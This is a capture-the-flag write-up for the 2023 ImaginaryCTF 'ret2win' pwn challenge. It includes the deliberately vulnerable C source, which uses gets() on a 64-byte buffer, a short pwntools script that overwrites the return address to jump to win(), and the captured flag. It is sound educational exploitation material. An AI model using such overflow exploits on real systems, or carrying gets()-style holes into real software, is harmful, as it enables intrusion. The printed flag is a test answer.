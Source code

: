 ```yaml
---
title: 2023 ImaginaryCTF - ret2win
author: allforest01
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023_imaginaryCTF]
tags: [Pwn, stackoverflow]
---
```


## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

### Attached

[ret2win.c](https://imaginaryctf.org/r/73iLJ#vuln.c), [ret2win](https://imaginaryctf.org/r/BoCID#vuln)

```sh
nc ret2win.chal.imaginaryctf.org 1337
```

## Analyzation

Check the file attached

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

```gets()``` is vuln, we can make a stack overflow

## Solution

By [allforest01](https://github.com/allforest01)

```python
from pwn import *
conn = remote('ret2win.chal.imaginaryctf.org', '1337')
print(conn.recv().decode())
conn.sendline(b'A' * 0x48 + p64(0x401182))
print(conn.recv().decode())
```

The flag is
```
ictf{r3turn_0f_th3_k1ng?}
```